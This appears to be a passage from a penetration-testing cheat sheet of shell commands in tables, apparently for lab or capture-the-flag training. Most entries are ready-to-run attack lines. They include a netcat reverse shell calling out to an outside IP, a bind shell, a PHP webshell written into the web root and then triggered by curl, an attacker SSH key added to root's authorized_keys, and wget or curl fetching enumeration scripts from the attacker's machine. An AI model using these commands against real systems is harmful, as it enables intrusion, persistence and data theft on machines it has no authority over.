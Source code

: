 | `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f`    | Another command to send a reverse shell from the remote server        |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`         | Start a bind shell on the remote server                               |
| `nc 10.10.10.1 1234`                                                                  | Connect to a bind shell started on the remote server                  |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                      | Upgrade shell TTY (1)                                                 |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice                           | Upgrade shell TTY (2)                                                 |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                     | Create a webshell php file                                            |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                         | Execute a command on an uploaded webshell                             |
| **Privilege Escalation**                                                              |                                                                       |
| `./linpeas.sh`                                                                        | Run `linpeas` script to enumerate remote server                       |
| `sudo -l`                                                                             | List available `sudo` privileges                                      |
| `sudo -u user /bin/echo Hello World!`                                                 | Run a command with `sudo`                                             |
| `sudo su -`                                                                           | Switch to root user (if we have access to `sudo su`)                  |
| `sudo su user -`                                                                      | Switch to a user (if we have access to `sudo su`)                     |
| `ssh-keygen -f key`                                                                   | Create a new SSH key                                                  |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`          | Add the generated public key to the user                              |
| `ssh root@10.10.10.10 -i key`                                                         | SSH to the server with the generated private key                      |
| **Transferring Files**                                                                |                                                                       |
| `python3 -m http.server 8000`                                                         | Start a local webserver                                               |
| `wget http://10.10.14.1:8000/linpeas.sh`                                              | Download a file on the remote server from our local machine           |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`                                | Download a file on the remote server from our local machine           |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`                                      | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0`                                                                   | Convert a file to `base64`                                            |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`                                     | Convert a file from `base64` back to its orig                         |
| `md5sum shell`                                                                        | Check the file's `md5sum` to ensure it converted correctly            |


##  Infrastructure-based Enumeration

| **Command**                                                         | **Description**                              |
| ------------------------------------------------------------------- | -------------------------------------------- |
| `curl -s https://crt.sh/\?q\=<target-domain>\&output\=json \| jq .` | Certificate transparency.                    |
| `for i in $(cat ip-addresses.txt);do shodan host $i;done`           | Scan each IP address in a list using Shodan. |

### Host-based Enumeration
